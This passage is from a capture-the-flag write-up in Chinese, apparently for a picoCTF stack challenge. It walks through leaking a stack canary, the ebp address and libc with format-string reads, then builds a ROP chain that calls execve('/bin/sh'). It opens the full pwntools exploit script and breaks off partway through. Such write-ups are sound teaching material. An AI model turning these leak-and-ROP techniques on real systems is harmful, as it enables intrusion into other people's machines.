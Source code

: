     [+] Canary Value = 0xd824d100
    ```
5. **寫/bin/sh\x00並開shell**
要開shell的話必須要找個地方寫`/bin/sh\x00`，但是我有想過要用system read的方式，但是找不到int 0x80 ; ret的gadget所以就直接寫在stack上最快也最方便，只是要計算執行到開shell之前的esp或ebp，所以我們可以直接沿用fmt的技巧先把ebp的address紀錄起來等到把/bin/sh寫上去之後再看offset是多少，以我的例子來說就是差了0x8的距離，可以直接用gdb跟一下就知道了
    ```python
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b"%138$p")
    r.recvuntil(b"Congrats: ")
    ebp_addr = int(r.recvuntil(b"\n").strip().decode(), 16)
    success(f"ebp address = {hex(ebp_addr)}")
    # raw_input()

    bin_sh_1 = 0x6e69622f
    bin_sh_2 = 0x68732f
    pop_eax_ret = 0x00024d37 + libc_addr
    pop_ebx_ret = 0x00018d05 + libc_addr
    pop_ecx_ret = 0x00193aa4 + libc_addr
    pop_edx_ret = 0x00001aae + libc_addr
    int_0x80 = 0x00002d3f + libc_addr

    ROP_payload = flat(
        pop_eax_ret, 0xb,
        pop_ebx_ret, (ebp_addr+0x8),
        pop_ecx_ret, 0,
        pop_edx_ret, 0,
        int_0x80,
        bin_sh_1, bin_sh_2
    )
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b'a' * (0x200) + p32(canary_value) + b'a' * 0xc + ROP_payload)
    ```

## Exploit - ROP gadget / leak libc / leak Canary
這一題算是綜合蠻多stack vulnerability的技巧，所以過程蠻複雜的，但只要環境對了就很順利
```python=
from pwn import *
import random


if args.REMOTE:
    r = remote("jupiter.challenges.picoctf.org", 18263)
    ans = -3727
elif args.LOCAL:
    r = process("./V", env={"LD_PRELOAD" : "./libc-2.27.so"})
    # r = process('./vuln')
    # ans = -3615
    ans = -3727

'''#############
Find Libc address by stack info
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%147$p")
r.recvuntil(b"Congrats: 0x")
```